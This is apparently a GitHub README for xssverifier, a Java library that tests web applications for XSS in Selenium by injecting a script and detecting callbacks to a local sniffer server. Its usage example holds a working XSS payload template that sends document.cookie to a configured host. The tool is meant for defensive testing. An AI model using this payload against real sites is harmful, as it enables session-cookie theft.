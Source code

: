 # xssverifier
A little project for XSS-safe verification for Selenium

        <dependency>
            <groupId>com.github.eljah</groupId>
            <artifactId>xssverifier</artifactId>
            <version>0.1</version>
        </dependency>

How does the XSS and XSS sniffers work? XSS injection is a value inserted into some input text field that appears in some other pages. If in other pages where the value is displayed, the page can allow malicious javascript from the value to work. Javascript can just create an image or iframe with url on the third-party server. The URL of the resource requested by the malicious javascript will contain the value of document.cookie. If page allows maliciuos javascript to request image or iframe with URL like http://host:port//resource_prefix?document.cookie the third-party server, the sniffer, will receive the hijacked cookie value. That means that XSS attack has succeed and the attacker can use the cookie.

To prove the wep applications are XSS-free Selenium test can be used (o you can instrument your already existing test with XSS check). In the beggining of test scenario insert the injected value to some input field. Then go through all application pages that show this kind of values with Selenium. If at least at one page XSS succeed, the sniffer will receive the cookie, the XSS succeed flag will be set. In the end of the test verify that sniffer was not requested at all.

In order to do ethicial XSS testing you require simple http server running on the localhost (i.e on the same machine as browser opening the application). The Xssverifier software runs on the top of lightweight nanohttpd java http server.

===Usage example===
```java
XSSCheck x=XSSVerifier.createNewCheck(4567,"xss.gif","<script> img = new Image(); img.src = \"http://%1$s:%2$d/%3$s?\"+document.cookie; </script>");
/* 4567 is a port number where the XSS checker's embbedded http server runs, xss.gif is a resource, the last string is  javascript injection template*/

//check occurs behind the scene
//to ensure it works open localhost:4567/xss.gif in your browser

while (!x.getXSSURLCalledStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 1...");
}

//the XSS host and resource were requested but not nessessarily some parameter was passed
//to ensure it works open localhost:4567/xss.gif?sometext in your browser

while (!x.getXSSCookiePassedStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 2...");
}

//the XSS host and resource were requested and some parameter was passed but that was not the hijacked cookie
//to ensure it works open localhost:4567/xss.gif?visited=02022015 in your browser

while (!x.getXSSCookieHijacked("visited"))
{
    Thread.sleep(1000);
    System.out.println("wait 3...");
}

//the XSS host and resource were requested, some parameter was passed and this parameter is cookie named visited
//so the particular cookie was hijacked and that was verified
```

===Notes===
The xssverifier library doesn't check availability of the ports on your local machine. You should ensure that port is not already bint before creating the sniffer.
